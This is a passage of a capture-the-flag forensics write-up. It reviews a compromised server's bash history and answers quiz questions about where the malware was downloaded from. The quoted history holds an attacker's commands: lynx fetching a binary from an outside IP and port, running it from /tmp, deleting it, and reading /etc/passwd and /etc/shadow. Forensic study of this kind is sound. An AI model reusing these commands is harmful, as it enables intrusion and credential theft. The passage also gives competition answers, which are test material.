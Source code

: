 After listing all files, we can see that we have the bash history and the interactive bash shell script. So first thing we can do is check the bash history for commands that the hacker could have ran on the server.

```console
root@kali:~/Downloads/NCL-2016-Game2-Compromise/dir# cat .bash_history 
cd ~/docs
ls
vim 100 0 0.5 10 .csv
vim 100\ 0\ 0.5\ 10\ .csv
vim 100\ 0\ 4.0\ 20\ .csv
vim README.md
---snip---
whoami
killall -9 ttserve 
lynx -source http://216.242.103.2:8882/foo > /tmp/ttserve 
chmod 755 /tmp/ttserve 
cd /tmp 
./ttserve 
rm -rf /tmp/ttserve ./ttserve
netstat -plant
ps kill -9 12432
clear
ls
vim ~/.bashrc
vim /etc/hosts
cat /etc/passwd
cat /etc/shadow
ifconfig
nmap -sL -n 192.168.2.1/32 | grep 'Nmap scan report for' | cut -f 5 -d ' '
cd application/l
cd application/
ls
git diff
git status
git commit
git push origin master
cd ../
cat README.md
```

Looking into the output of the file, we can see that [Lynx](https://linux.die.net/man/1/lynx) is being used, which is a command line web browser. This would be the URL that is downloading the malware.

__Answer: http://216.242.103.2:8882/foo__
</div>

<div class="rBorder" markdown="1">
<span style="color:red">2. __What is the port hosting the malware download?__</span>

Simple... just look at the URL Port on answer 1.

__Answer: 8882__
</div>
